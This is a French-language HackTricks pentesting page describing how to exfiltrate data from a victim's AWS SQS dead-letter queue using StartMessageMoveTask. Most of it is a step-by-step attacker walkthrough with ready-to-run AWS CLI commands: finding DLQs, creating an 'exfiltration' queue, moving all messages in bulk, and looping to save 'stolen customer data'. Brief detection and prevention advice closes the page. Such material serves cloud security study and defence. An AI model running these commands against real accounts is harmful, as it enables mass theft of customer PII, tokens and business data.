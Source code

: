 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## Description

Abuser des tâches de déplacement de messages SQS pour voler tous les messages accumulés dans la Dead-Letter Queue (DLQ) d'une victime en les redirigeant vers une queue contrôlée par l'attaquant en utilisant `sqs:StartMessageMoveTask`. Cette technique exploite la fonctionnalité légitime de récupération de messages d'AWS pour exfiltrate des données sensibles qui se sont accumulées dans les DLQs au fil du temps.

## What is a Dead-Letter Queue (DLQ)?

Une Dead-Letter Queue est une queue SQS spéciale où les messages sont automatiquement envoyés lorsqu'ils n'ont pas pu être traités correctement par l'application principale. Ces messages échoués contiennent souvent :
- Des données sensibles d'application qui n'ont pas pu être traitées
- Des détails d'erreur et des informations de débogage
- Des informations personnelles identifiables (PII)
- Des API tokens, identifiants, ou d'autres secrets
- Des données de transactions critiques pour le business

Les DLQs jouent le rôle de "cimetière" pour les messages échoués, ce qui en fait des cibles de valeur puisqu'elles accumulent des données sensibles au fil du temps que les applications n'ont pas su traiter correctement.

## Attack Scenario

**Real-world example :**
1. **E-commerce application** traite les commandes client via SQS
2. **Certaines commandes échouent** (problèmes de paiement, inventaire, etc.) et sont déplacées vers un DLQ
3. **Le DLQ s'accumule** pendant des semaines/mois de commandes échouées contenant des données clients : {"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}
4. **L'attaquant obtient l'accès** aux identifiants AWS avec des permissions SQS
5. **L'attaquant découvre** que le DLQ contient des milliers de commandes échouées avec des données sensibles
6. **Au lieu d'essayer d'accéder aux messages individuellement** (lent et évident), l'attaquant utilise `StartMessageMoveTask` pour transférer en masse TOUS les messages vers sa propre queue
7. **L'attaquant extrait** toutes les données sensibles historiques en une seule opération

## Requirements
- La queue source doit être configurée comme DLQ (référencée par au moins une RedrivePolicy d'une queue).
- Permissions IAM (exécutées en tant que le principal victime) :
- Sur la DLQ (source) : `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Sur la queue de destination : permission pour livrer des messages (par ex., policy de queue autorisant `sqs:SendMessage` depuis le principal victime). Pour des destinations dans le même compte, cela est typiquement autorisé par défaut.
- Si SSE-KMS est activé : sur la CMK source `kms:Decrypt`, et sur la CMK de destination `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
Exfiltrate des payloads sensibles accumulés dans les DLQs (événements échoués, PII, tokens, payloads applicatifs) à grande vitesse en utilisant les APIs natives SQS. Fonctionne cross-account si la policy de la queue de destination permet `SendMessage` depuis le principal victime.

## How to Abuse

- Identifier l'ARN du DLQ victime et s'assurer qu'il est réellement référencé comme DLQ par une queue (n'importe quelle queue).
- Créer ou choisir une queue de destination contrôlée par l'attaquant et obtenir son ARN.
- Démarrer une message move task depuis le DLQ victime vers votre queue de destination.
- Surveiller la progression ou annuler si nécessaire.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: Un attaquant a compromis des identifiants AWS et a découvert qu'une application e-commerce utilise SQS avec un DLQ contenant des tentatives de traitement de commandes clients échouées.

1) **Discover and examine the victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Créer une file de destination contrôlée par l'attaquant**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Exécuter le vol massif de messages**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Collecter les données sensibles volées**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Remarques inter-comptes
- La file de destination doit avoir une resource policy autorisant le principal victime à `sqs:SendMessage` (et, si utilisé, KMS grants/permissions).

## Pourquoi cette attaque est efficace

1. **Fonctionnalité AWS légitime** : Utilise des fonctionnalités AWS natives, ce qui la rend difficile à détecter comme malveillante
2. **Opération en masse** : Transfère des milliers de messages rapidement au lieu d'un accès individuel lent
3. **Données historiques** : Les DLQs accumulent des données sensibles sur des semaines/mois
4. **Sous le radar** : De nombreuses organisations ne surveillent pas étroitement l'accès aux DLQ
5. **Capable inter-comptes** : Peut exfiltrer vers le compte AWS de l'attaquant si les permissions le permettent

## Détection et Prévention

### Détection
Surveillez CloudTrail pour les appels API `StartMessageMoveTask` suspects :
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Prévention
1. **Least Privilege**: Restreindre les permissions `sqs:StartMessageMoveTask` aux seuls rôles nécessaires
2. **Surveiller les DLQs**: Configurer des alarmes CloudWatch pour détecter une activité inhabituelle des DLQs
3. **Politiques inter-comptes**: Examiner attentivement les politiques de file SQS autorisant l'accès inter-comptes
4. **Chiffrer les DLQs**: Utiliser SSE-KMS avec des politiques de clés restreintes
5. **Nettoyage régulier**: Ne laissez pas de données sensibles s'accumuler indéfiniment dans les DLQs

{{#include ../../../banners/hacktricks-training.md}}
